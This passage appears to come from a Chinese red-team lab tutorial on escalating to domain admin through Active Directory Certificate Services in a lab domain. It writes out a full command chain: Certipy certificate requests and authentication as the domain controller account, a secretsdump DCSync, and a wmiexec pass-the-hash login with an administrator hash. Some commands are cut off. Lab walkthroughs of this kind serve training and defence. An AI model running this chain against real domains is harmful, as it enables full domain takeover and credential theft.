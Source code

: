 ``

使用Certipy工具申请证书。

    
          * 
    
    
    
    certipy req 'redteam.lab/CPT01$:Passw0rd@DC2016.redteam.lab' -ca 'redteam-DC2016-CA' -template 'Machine'

### （向右滑动、查看更多）

  

``

同样使用Certipy工具申请票据。

    
          * 
    
    
    
    certipy auth -pfx dc2016.pfx -username DC2016$ -domain redteam.lab-dc-ip 10.10.2.20 

### （向右滑动、查看更多）

  

``

获取到域控机器账户的Hash后，可以执行DCSync攻击。

    
          * 
    
    
    
    KRB5CCNAME=dc2016.ccache python3 secretsdump.py -k redteam.lab/DC2016\$@dc20

### （向右滑动、查看更多）

  

``

使用wmiexec等工具获取域控权权限。

    
          * 
    
    
    
    python3 wmiexec.py -hashes :83a140d89e42046e8daf5394d386a69a redteam.lab/administrator@10.10.2.20 -dc-ip 10.10.2.20

（向右滑动、查看更多）  
![](https://gitee.com/fuli009/images/raw/master/public/20221202191736.png)  
  

精彩推荐

  
  
  
  